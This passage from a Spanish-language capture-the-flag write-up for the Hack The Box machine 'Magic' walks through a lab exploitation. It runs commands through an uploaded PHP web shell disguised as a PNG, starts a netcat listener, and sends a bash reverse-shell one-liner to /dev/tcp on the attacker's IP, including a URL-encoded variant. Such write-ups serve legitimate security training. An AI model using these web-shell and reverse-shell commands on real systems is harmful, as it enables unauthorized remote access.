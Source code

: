 Probamos la ruta [http://10.10.10.185/images/uploads/pruebaReverseShell2.php.png?cmd=whoami](http://10.10.10.185/images/uploads/pruebaReverseShell2.php.png?cmd=whoami), en la cual ya estamos asignando el valor “whoami” a la variable cmd que se ejecutará en el servidor. Obtenemos “www-data”:

<p align="center">
  <img src="../assets/images/htb-writeup-magic/respuesta-exitosa-subida-php-png.png">
</p>

De esta forma comprobamos la ejecución de comandos. Ahora intentamos hacer una reverse shell. Para esto primero localmente debemos ponernos en escucha por el puerto 443 usando la herramienta [netcat] (https://blog.desdelinux.net/usando-netcat-algunos-comandos-practicos/?utm_source=twitterfeed&utm_medium=twitter):

```go
> sudo nc -nlvp 443
listening on [any] 443 ...
```

Y en la url establecemos la conexión desde el servidor [http://10.10.10.185/images/uploads/pruebaReverseShell.php.png?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'](http://10.10.10.185/images/uploads/pruebaReverseShell.php.png?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'). Pero no anterior no punciona porque la barra de url no reconoce el signo **&** , y en vez de eso debemos poner su correpondiente en códificación url que es ** & → %26 **. Quedaría así: [http://10.10.10.185/images/uploads/pruebaReverseShell.php.png?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.12/443 0>%261'](http://10.10.10.185/images/uploads/pruebaReverseShell.php.png?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.12/443 0>%261')
<p align="center">
  <img src="../assets/images/htb-writeup-magic/reverse-shell-completada.png">
</p>
Ya tenemos una consola para ejecutar comando en el servidor!!!
<br>
Aunque la ejecución de comando no aparece en un buen formato, como estamos acostumbrados:

